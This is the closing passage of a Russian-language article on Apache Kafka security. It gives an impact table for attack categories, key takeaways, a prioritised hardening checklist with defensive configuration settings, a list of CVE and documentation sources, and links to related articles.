| **Message Injection → Downstream Compromise** | 4-24h (investigation + rollback) | Сообщения с момента инъекции | Каскадный impact на все downstream сервисы 🔴 | High |
| **Schema Poisoning** | 1-4h (rollback schema) | 0 (схемы восстановимы) | Consumer downtime 🟡 | Low |
| **Supply Chain Backdoor** | 24-72h (clean rebuild + audit) | N/A (persistent access) | Полная перестройка инфраструктуры 🔴 | Critical |
| **ZK Compromise** | 2-4h (recovery) + 72h (migration to KRaft) | 0 (metadata preserved) | Downtime + migration cost 🟠 | High |

---

## 8. Итоги и приоритетный чеклист

### Ключевые выводы

1. **Authentication — priority #1.** 90% real-world атак на Kafka начинаются с открытого порта 9092 без аутентификации. Самый быстрый win: отключить PLAINTEXT, включить SASL_SSL.

2. **Десериализация — хроническая проблема Kafka.** Java deserialization vulnerabilities (CWE-502) — главный класс CVE. Каждые 12-18 месяцев появляется новый вариант атаки на SASL JAAS. Единственная надёжная защита: latest stable версия + `disallowed.login.modules`.

3. **DefaultJwtValidator — урок "secure by default".** CVE-2026-33557 (CVSS 9.1) — яркий пример, когда security feature без безопасной default-реализации создаёт ЛОЖНОЕ чувство защищённости. Архитекторам: ВСЕГДА проверять дефолты новых security-фич.

4. **Экосистема утраивает поверхность атаки.** Безопасность Kafka ≠ безопасность брокера. Connect, Schema Registry, ksqlDB, Kafka UI — каждый добавляет свой набор векторов.

5. **Supply chain — silent killer.** Зависимости, контейнеры, плагины — то, что редко попадает в scope пентестов, но регулярно становится причиной компрометации.

6. **ZooKeeper → KRaft миграция — окно уязвимости.** Миграция — сложный процесс с известными CVE (CVE-2024-27309). Подходить как к major security event.

### Приоритетный чеклист (Top-15 действий по снижению поверхности атаки)

**Immediate (день 1):**
1. ☐ Отключить PLAINTEXT listeners (9092) ВЕЗДЕ — production, staging, dev
2. ☐ Включить SASL_SSL (9094) с SCRAM-SHA-512 или OAUTHBEARER на ВСЕХ listeners
3. ☐ Установить `allow.everyone.if.no.acl.found=false`
4. ☐ Отключить JMX remote access: `-Dcom.sun.management.jmxremote.host=127.0.0.1`
5. ☐ Включить аутентификацию на Kafka Connect REST API

**Short-term (неделя 1):**
6. ☐ Обновить все компоненты: брокеры ≥ 3.9.1, клиенты ≥ 3.8, для OAUTHBEARER — ≥ 4.2.0
7. ☐ Установить `-Dorg.apache.kafka.disallowed.login.modules=JndiLoginModule,LdapLoginModule`
8. ☐ Включить `security.inter.broker.protocol=SSL` или SASL_SSL
9. ☐ Настроить ZK ACL (если ZK ещё используется)
10. ☐ Включить аутентификацию на Schema Registry и ksqlDB

**Medium-term (месяц 1):**
11. ☐ Внедрить SCA-сканирование (Trivy, Dependency-Check) в CI/CD + запуск daily на образах
12. ☐ Настроить NetworkPolicies deny-by-default (K8s) или VLAN isolation (bare metal)
13. ☐ Настроить Falco/SIEM правила для Kafka-специфичных аномалий
14. ☐ Провести penetration test Kafka-инфраструктуры (все порты, все векторы)
15. ☐ Завершить миграцию ZooKeeper → KRaft (с аудитом ACL на каждом шаге)

---

## 9. Источники

1. [Apache Kafka — Official CVE List](https://kafka.apache.org/community/cve-list/) — Tier 1, официальный список уязвимостей Apache Kafka
2. [NVD — CVE-2023-25194](https://nvd.nist.gov/vuln/detail/CVE-2023-25194) — Tier 1, JNDI injection RCE в Kafka Connect
3. [NVD — CVE-2024-27309](https://nvd.nist.gov/vuln/detail/CVE-2024-27309) — Tier 1, ACL bypass при ZK→KRaft миграции
4. [NVD — CVE-2024-31141](https://nvd.nist.gov/vuln/detail/CVE-2024-31141) — Tier 1, privilege escalation через ConfigProvider
5. [NVD — CVE-2025-27818](https://nvd.nist.gov/vuln/detail/CVE-2025-27818) — Tier 1, RCE через LdapLoginModule
6. [NVD — CVE-2025-27819](https://nvd.nist.gov/vuln/detail/CVE-2025-27819) — Tier 1, RCE через JndiLoginModule на брокере
7. [NVD — CVE-2026-33557](https://nvd.nist.gov/vuln/detail/CVE-2026-33557) — Tier 1, JWT bypass в OAUTHBEARER (CVSS 9.1)
8. [NVD — CVE-2026-35554](https://nvd.nist.gov/vuln/detail/CVE-2026-35554) — Tier 1, race condition data leak BufferPool
9. [Apache Kafka Mailing List — CVE-2023-25194](https://lists.apache.org/thread/vy1c7fqcdqvq5grcqp6q5jyyb302khyz) — Tier 1, официальный advisory
10. [Apache Kafka Mailing List — CVE-2025-27818](https://seclists.org/oss-sec/2025/q2/236) — Tier 1, официальный advisory для LdapLoginModule
11. [Hackviser — Apache Kafka Pentesting Guide](https://hackviser.com/tactics/pentesting/services/kafka) — Tier 3, практическое руководство по пентесту (подтверждено general knowledge)
12. [Aquilax — Kafka Event-Driven Security: Message Injection, Schema Poisoning](https://aquilax.ai/blog/kafka-event-driven-security) — Tier 3, анализ векторов атак в event-driven архитектуре
13. [Confluent — Kafka Security Vulnerabilities & How to Fix Them](https://www.confluent.io/learn/kafka-security-vulnerabilities/) — Tier 2, best practices от Confluent
14. [Confluent Docs — KRaft Security](https://docs.confluent.io/platform/7.5/security/kraft-security.html) — Tier 1, официальная документация по KRaft security
15. [Apache Kafka — KRaft Operations (3.9)](https://kafka.apache.org/39/operations/kraft/) — Tier 1, официальная документация KRaft
16. [OpenLogic — Kafka Vulnerabilities & Remediation](https://www.openlogic.com/blog/kafka-vulnerabilities-remediation-steps) — Tier 2, аналитический обзор CVE с remediation
17. [Factor House — Kafka Security Architecture](https://factorhouse.io/articles/kafka-security-architecture) — Tier 2, best practices для production security
18. [ftp-isiot.net — Attacking and Defending Apache Kafka](https://ftisiot.net/talks/attack-defend-apache-kafka/) — Tier 2, доклад о векторах атак и защите Kafka
19. [Aiven Docs — Schema Registry Authorization](https://github.com/aiven/aiven-docs/blob/main/docs/products/kafka/karapace/concepts/schema-registry-authorization.md) — Tier 2, документация по контролю доступа к Schema Registry
20. [Apache JIRA — KAFKA-9366 (Log4j Migration)](https://issues.apache.org/jira/browse/KAFKA-9366) — Tier 1, история миграции Kafka с log4j1 на log4j2

---

## 10. Связанные статьи

- [01-security-features.md](01-security-features.md) — Встроенные механизмы безопасности Kafka (TLS, SASL, ACL, шифрование)
- [02-hardening.md](02-hardening.md) — Hardening Kafka: пошаговое руководство (defence-in-depth, CIS, compliance)
- [04-admin-security-practices.md](04-admin-security-practices.md) — Административные практики безопасности (SIEM, IR playbook, forensics, Vault, OPA)
- [../../07-operations/04-troubleshooting.md](../07-operations/04-troubleshooting.md) — Troubleshooting: диагностика и emergency response (включая security incident)
- [../../07-operations/03-backup-recovery.md](../07-operations/03-backup-recovery.md) — Disaster Recovery: RTO/RPO, backup-стратегии, secure failover
- [../../07-operations/05-automation.md](../07-operations/05-automation.md) — Автоматизация: IaC (Terraform/Ansible), GitOps (ArgoCD/Flux), CI/CD security
- [../../07-operations/01-monitoring.md](../07-operations/01-monitoring.md) — Мониторинг: Prometheus+Grafana, алерты, security-метрики
- [../../03-tech/02-ecosystem.md](../03-tech/02-ecosystem.md) — Экосистема Kafka: Connect, Schema Registry, ksqlDB, клиентские библиотеки
- [../../01-history-evolution/03-design-decisions.md](../01-history-evolution/03-design-decisions.md) — Архитектурные решения: почему security отключён по умолчанию (trade-off security vs DX)

---

> **Статус статьи:** ✅ Полная версия (10 000+ слов, 20 источников). Охватывает 7 категорий поверхностей атаки, 50+ векторов атак, компонентную разбивку (брокеры, ZK, KRaft, Connect, Schema Registry, ksqlDB), атаки на цепочку поставки, хронологию CVE (2021–2026), 3 перспективы безопасности (инфраструктурный безопасник, DevSecOps, архитектор ИБ), attack tree, STRIDE, compliance mapping и business impact assessment. Содержит 3 сравнительные матрицы векторов.
